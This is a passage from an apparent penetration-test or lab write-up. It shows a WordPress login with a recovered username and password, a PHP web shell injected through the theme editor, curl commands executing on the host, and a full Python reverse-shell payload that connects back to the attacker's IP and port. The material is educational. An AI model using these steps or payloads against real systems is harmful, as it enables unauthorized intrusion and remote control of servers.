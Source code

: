 |username|password|
|--------|--------|
|eddiethehead|eddiethehead123|


![](/img/articles/realgsmoveinsilencelikelasagna/red_12.png)


It works like a charm! Now it's time to execute commands directly on the Linux host. To do that, I just have to edit or upload a PHP page. Nowadays, it's possible to edit the current CMS theme through the web view.

> Appearences > Themes > Editor

On the right panel, we can see the "inc" folder, inside it, there are some PHP files such as `customizer.php`. I will inject arbitrary PHP code in this page:


![](/img/articles/realgsmoveinsilencelikelasagna/red_13.png)


This little PHP line will runs the data sent through the "x" GET parameter. Here is an example:

```bash
host $ curl "http://192.168.122.147/wp-content/themes/rock-band/inc/customizer.php?x=id"                                  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Perfect, it's time to execute a reverse shell. The standard method (using `netcat`) is no longer available since the "-e" argument has been removed. The `/dev/tcp/IP/PORT` trick is not always possible too.

But there are a lot of possibilities to runs a reverse shell, it works with PHP or Python for example. I will not modify the PHP pages any further, in order to avoid damaging the integrity of the site.

```bash
host $ curl "http://192.168.122.147/wp-content/themes/rock-band/inc/customizer.php?x=which%20nc"
-> No netcat

host $ curl "http://192.168.122.147/wp-content/themes/rock-band/inc/customizer.php?x=which%20python"
/usr/bin/python
```

Python is present on the remote target, nice. Let's go get the payload on pentestmonkey:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I just have to replace the IP and port with mine. Here is the final payload:

```
http://192.168.122.147/wp-content/themes/rock-band/inc/customizer.php?x=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.122.1",3615));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
